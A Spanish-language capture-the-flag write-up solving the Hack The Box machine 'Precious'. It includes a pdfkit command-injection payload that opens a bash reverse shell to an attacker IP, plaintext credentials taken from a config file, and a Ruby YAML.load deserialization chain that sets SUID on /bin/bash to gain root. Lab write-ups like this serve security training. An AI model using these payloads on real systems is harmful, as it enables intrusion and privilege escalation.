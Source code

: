 ```yaml
---
layout: encrypted
---
```


Hoy resolveremos la máquina retirada "Precious" es una máquina de hack the box de dificultad fácil.


![Precious](https://user-images.githubusercontent.com/109216235/207889455-5ddd49b1-bb86-4f89-af3e-65c44935f1f1.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la máquina con nmap


```nmap
sudo nmap 10.10.11.189
Nmap scan report for 10.10.11.189
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


# [](#header-2) Vulnerabilidad


Antes de poder entras tenemos que actualizar nuestro etc/hosts para que la IP apunte a precious.htb
Despues, podríamos entrar en la página.


![image](https://user-images.githubusercontent.com/109216235/207906514-b59cd9d7-607c-4e39-a5de-cc88c267d635.png)


Viendo esto podemos crearnos un servidor con python3 para que nos cree un pdf de nuestro servidor

```python
python3 -m http.server 4444
```

![image](https://user-images.githubusercontent.com/109216235/207906825-45cbd4c1-f7e9-48de-92e8-8053d8e595b7.png)


Esto nos generará un pdf. Lo analizamos con "exiftool" y podemos ver que versión de pdfkit se utiliza


![image](https://user-images.githubusercontent.com/109216235/207907027-277bf2aa-0889-4f7d-9118-127fe9b59a28.png)


Buscamos información sobre como injectar comandos en esta máquina. En este sitio https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 encontramos una vulnerbilidad de la que nos podemos aprovechar.
Usando el ejemplo podemos manipularlo para que nos dé una revershell. Recordad que tenemos que poner en escucha "netcat"

```netcat
netcat -lnvp 4444
```

Ejemplo:
```bash
http://example.com/?name=#{'%20`sleep 5`'}
```
Revershell cambiando el ejemplo:
```bash
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.18/4444 0>&1"`'}
```

Este comando que hemos creado hace:
bash -c: permite introducir strigns
bash -i: Hace que la revershell sea interacitva
/dev/tcp/10.10.16.18/4444: crea la revershell cuando se ejecuten


![image](https://user-images.githubusercontent.com/109216235/207907465-d2cdd79e-7a17-4eb0-8fef-2b00fedc3b7c.png)


Dentro de la máquina podemos encontrar dentro del usuario "ruby" una carpeta oculta llamada "bundle" que contiene las credenciales de "henry"


```
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```


# [](#header-2) Escalada de privilegios


Accedemos al ssh con las credenciales de "henry"


```ssh
ssh henry@10.10.11.189
henry@10.10.11.189's password:Q3c1AqGHtoI0aXAYFH
```

Dentro de la carpeta /home/ de "henry" encontramos la user.txt y ya tendríamos la mitad de la máquina


Utilizamos ```sudo -l``` para ver que se ejecuta como root

```ssh
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Buscamos como escalar de privilegios con Ruby YAML.load. En esta página (https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) encontramos una vulnerabilidad. Vemos que si manipulamos el campo git-set podemos escalar de privilegios.

Ejemplo:
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Escalada cambiando el ejemplo:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```


No se nos puede olvidar que este script se tiene que llamar dependencies.yml y tiene que estar en la carpeta /home/ de "henry"

Ahora ejecutamos este script con ```bash -p``` y tendríamos una shell root. Buscamos la carpeta /root/ y allí encontrariamos la root.txt y habríamos completado la máquina.
